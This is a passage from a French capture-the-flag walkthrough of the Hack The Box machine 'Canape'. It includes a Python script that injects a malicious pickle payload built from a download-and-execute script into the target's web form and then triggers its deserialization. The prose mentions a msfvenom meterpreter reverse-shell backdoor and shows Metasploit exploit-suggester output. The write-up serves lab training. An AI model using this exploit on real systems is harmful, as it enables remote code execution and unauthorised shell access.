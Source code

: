 ```python
print("Converting to pickle file...")
os.system("python evilPick.py -f download_execute.py -s payload -e none")

print("Sending payload...")
with open("payload") as fd:
    payload = fd.read()
    character, quote = payload.split("Moe", 1)
    character += "Moe"
    print("Character is")
    print(character)
    print("Quote is")
    print(quote)
    response = requests.post(
        "http://canape.htb/submit",
        data={
            "character": character,
            "quote": quote
        }
    )
    if "Success!" in response.text:
        print("Injection succeed!")
    else:
        print("Injection failed :(")
        exit()

    digest = md5(payload.encode()).hexdigest()
    print("Executing payload. Digest is {}...".format(digest))
    response = requests.post("http://canape.htb/check", data={"id": digest})
    print(response.status_code)
```

On aura préalablement généré une backdoor via *msfvenom* (lors de la première exploitation ça a fonctionné sans problème avec un *linux/x64/meterpreter/reverse\_tcp* mais lors de l'écriture de l'article il a fallut sortir un *linux/x64/meterpreter\_reverse\_https*...)  

On obtient alors un shell en tant que *www-data*. Le module *exploit\_suggester* de Metasploit nous remonte un exploit potentiel mais ça s'avère être un faux positif :  

```plain
[*] 10.10.10.70 - Collecting local exploits for x64/linux...
[*] 10.10.10.70 - 20 exploit checks are being tried...
[+] 10.10.10.70 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
[*] Post module execution completed
```

Ouh Pinaise !
-------------

À ce stade, on s'intéresse particulièrement à l'utilisateur *homer* dont le dossier personnel doit contenir notre flag de milieu de parcours.  

C'est un utilisateur avec un uid standard qui ne fait partie d'aucun groupe particulier (*uid=1000(homer) gid=1000(homer) groups=1000(homer)*)  

